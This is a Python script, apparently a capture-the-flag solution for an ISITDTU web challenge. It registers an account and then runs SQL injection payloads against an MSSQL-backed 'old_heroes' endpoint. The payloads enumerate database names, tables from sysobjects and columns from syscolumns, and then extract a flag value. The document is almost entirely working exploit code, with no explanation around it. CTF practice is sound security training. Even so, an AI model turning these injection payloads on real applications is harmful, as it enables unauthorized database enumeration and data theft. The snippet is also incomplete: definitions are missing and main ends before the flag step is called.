 ```python
password = os.urandom(16).hex()
session = requests.Session()

def register_user():
    res = session.post(BASE_URL + 'register', data={'username': username, 'password': password})
    print(f"[+] Registered user: {username}:{password}")
    
def login_user():
    res = session.post(BASE_URL + 'login', data={'username': username, 'password': password})
    print(f"[+] Logged in as {username}")

def extract_all_db_names():
    for i in range(1, 100):
        payload = f"STY as id, (SELECT DB_NAME({i})) as hero_name, 1 as hero_power from (select geometry::STGeomFromText('POINT(0 0)',0) as [ ]) as OldHeroDB -- "
        res = session.get(BASE_URL + 'old_heroes', params={'name': payload})
        clean_res = cleanhtml(res.text)
        pattern = re.compile(r'Heroes List List of Heroes ID Name Power 0(.*?)1', re.DOTALL)
        if pattern.search(clean_res).group(1).strip() == 'null':
            break
        else:
            print(f"[+] Extracted DB name: {pattern.search(clean_res).group(1).strip()}")

def extract_tables(db_name):
    payload = f"STY as id, (SELECT TOP 1 name FROM {db_name}..sysobjects WHERE xtype = 'U' ORDER BY name ASC) as hero_name, 1 as hero_power from (select geometry::STGeomFromText('POINT(0 0)',0) as [ ]) as OldHeroDB -- "
    res = session.get(BASE_URL + 'old_heroes', params={'name': payload})
    clean_res = cleanhtml(res.text)
    pattern = re.compile(r'Heroes List List of Heroes ID Name Power 0(.*?)1', re.DOTALL)
    print(f"[+] Extracted table name {pattern.search(clean_res).group(1).strip()} from database {db_name}")
    return pattern.search(clean_res).group(1).strip()

def extract_columns(table_name):
    payload = f"STY as id, (SELECT TOP 1 name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '{table_name}')) as hero_name, 1 as hero_power from (select geometry::STGeomFromText('POINT(0 0)',0) as [ ]) as OldHeroDB -- "
    res = session.get(BASE_URL + 'old_heroes', params={'name': payload})
    clean_res = cleanhtml(res.text)
    pattern = re.compile(r'Heroes List List of Heroes ID Name Power 0(.*?)1', re.DOTALL)
    print(f"[+] Extracted column name {pattern.search(clean_res).group(1).strip()} from table {table_name}")
    return pattern.search(clean_res).group(1).strip()    

def get_flag(table_name, column_name):
    payload = f"STY as id, (SELECT TOP 1 {column_name} FROM {table_name}) as hero_name, 1 as hero_power from (select geometry::STGeomFromText('POINT(0 0)',0) as [ ]) as OldHeroDB -- "
    res = session.get(BASE_URL + 'old_heroes', params={'name': payload})
    clean_res = cleanhtml(res.text)
    flag_pattern = re.compile(r'ISITDTU\{.*?\}')
    flag_match = flag_pattern.search(clean_res)
    if flag_match:
        print(f"[+] Flag: {flag_match.group()}")
    else:
        print("[-] Flag not found")

def main():
    register_user()
    login_user()
    extract_all_db_names()
    table = extract_tables('heroes')
    column = extract_columns(table)
```